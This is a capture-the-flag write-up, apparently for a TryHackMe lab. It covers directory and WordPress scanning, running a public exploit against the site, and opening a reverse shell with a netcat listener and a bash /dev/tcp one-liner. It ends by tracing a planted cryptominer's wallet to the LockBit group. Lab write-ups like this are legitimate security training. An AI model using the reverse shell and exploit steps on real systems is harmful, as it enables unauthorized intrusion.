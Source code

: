 
## *Enumeration*
>	- Using `gobuster -u https://10.10.141.118/ -k -w /usr/share/wordlists/dirb/common.txt` to get hidden directories.
>		- `-k` to not check for certificates.
>	- ![](gobuster-out.png)
>	- The website uses WordPress, use `wpscan --url https://bricks.thm/ --disable-tls-checks` to check for vulnerabilities. ![](wp-scan-1.png)![](wp-scan-2.png)
>	- The version is found `1.9.5`, searching online for a vulnerability for WordPress version 1.9.5.![](wp-vuln.png)
## *Gaining Access*
>	- Cloning the repository and installing the requirements.
>	- Using `python exploit.py -u https://bricks.thm/` to run the exploit.![](gained-access.png)
>	- Run a listener using `nc -lvnp 4444` and upgrade the shell from the target machine using `bash -c 'exec bash -i &>/dev/tcp/10.9.224.110/4444 <&1'`.![](reverse-shell.png)
>	- The hidden file can be found.![](hidden-file.png)
## *Enumeration v2*
>	- Checking running processes using `systemctl list-units --type=service --state=running`.![](running-proc.png)
>	- The `ubuntu.service` that got a description of `TRYHACK3M` is obviously suspicious.
>	- Checking the service using `systemctl cat ubuntu.service`.![](sus-service.png)
>	- The service is executing from the `/lib/NetworkManager/` directory. Checking the directory.![](net-man.png)
>	- The file `inet.conf` has read only permissions, `cat`ing the file.![](sus-file.png)
>	- The miner file is found, checking the ID in Cyber Chef.![](id-decoded.png)
>	- Since bitcoin address are 26 and 62 alphanumeric characters. The decoded address `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qabc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa` is more than that.
>	- Examining the address, it seems to be duplicated.![](dup-add.png)
>	- Going to a bitcoin trading website to check the address.![[blockchain-add.png]]
>	- Checking the transactions with low Privacy, the last one shows the sender and receiver.![](bitcoin-transaction.png)
>	- Checking the sender's address with a google search.![](lockbit-grp.png)
>	- The LockBit Ransomware Group is the affiliated group.